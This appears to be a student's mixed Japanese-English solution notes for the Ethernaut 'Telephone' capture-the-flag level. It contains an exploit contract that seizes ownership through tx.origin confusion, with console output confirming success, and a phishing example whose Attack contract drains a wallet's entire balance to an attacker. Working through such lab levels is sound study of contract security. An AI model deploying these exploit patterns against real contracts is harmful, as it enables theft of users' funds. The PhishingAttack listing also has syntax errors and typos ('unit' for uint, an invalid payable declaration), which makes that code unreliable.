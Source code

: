 ## Ethernaut-solution
---

### 4. Telephone 

Claim ownership of the contract below to complete this level.


- Remix IDEのコツ
prerequsite: Environmentは必ず 【Injected Web3】でやる<br>
compile時にgas代<br>
deploy時にgas代<br>


まず事前に用意しておいた Telephone.sol をcompile 

TelephoneHack.solを書く,compile => deploy of contract address 
```
contract.address
'0x6A2449B7f82499832F4Ced39a886c75397c77f61'
```

Contract.owner()でowner addressを確認
```
await contract.owner()
'0x0b6F6CE4BCfB70525A31454292017F640C10c768'
```

Deployed Contractからfunction hackContractを呼び出して
自分のウォレットのアドレスを入力
```
'0xF6eA8E869C68362eC2FA1b2159Fe459D6D8f30F5'
```

changeOwnerできているか確認。my wallet addressになっていたらsuccess!
```
await contract.owner()
'0xF6eA8E869C68362eC2FA1b2159Fe459D6D8f30F5' //success
```

```solidity
//Telephone.sol
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Telephone {

  address public owner;

  constructor() public {
    owner = msg.sender;
  }

  function changeOwner(address _owner) public {
    if (tx.origin != msg.sender) {
      owner = _owner;
    }
  }
}

//TelephoneHack.sol
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "./Telephone.sol";

contract TelephoneHack {
    Telephone telContract;

    constructor(address _address) public {
        telContract = Telephone(_address);
    }

    function hackContract(address _address) public {
        telContract.changeOwner(_address);
    }
}
```


While this example may be simple, confusing tx.origin with msg.sender can lead to phishing-style attacks, such as this.

An example of a possible attack is outlined below.

Use tx.origin to determine whose tokens to transfer, e.g.
```solidity
function transfer(address _to, uint _value) {
  tokens[tx.origin] -= _value;
  tokens[_to] += _value;
}
```
Attacker gets victim to send funds to a malicious contract that calls the transfer function of the token contract, e.g.
```solidity
function () payable {
  token.transfer(attackerAddress, 10000);
}
```
In this scenario, tx.origin will be the victims address (while msg.sender will be the malicious contracts address), 
resulting in the funds being transferred from the victim to the attacker.
```solidity
//PhishingAttack.sol 

// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

/*Phishing attack using tx.origin */

//Dale -> Wallet.transfer() (tx.origin = Dale) 
//Dale -> Laura's malicious contract -> Wallet.transfer() (tx.origin = Dale)

contract Wallet {
	address public owner;

	constructor() public { //anyone can deploy 
	owner = msg.sender;
	}

	function deposit() public payable ()

	function transfer(address payable _to, unit _amount) public {//specifier amount 
	require(tx.origin == owner, "Now owner"); //dale withdraw money here, sending transaction

	_to.transfer(_amount); //she can suck out or withdraw all the money inside of this contract
	}

	function getBalance() public view returns(unit) {
	return address(this).balance;
	}
  }

contract Attack {
	address payable public owner;
	Wallet wallet;

	constructor(Wallet _wallet) public {
	wallet = Wallet(_wallet); //Don't write" new" prefix. 
	owner = msg.sender; //laura is gonna be owner
	}

	function attack() public {
	wallet.transfer(owner, address(wallet).balance);//entire balance 
	}//Laura can fool dale calling this attaack, call wallet contract address of wallet.balance
}
```


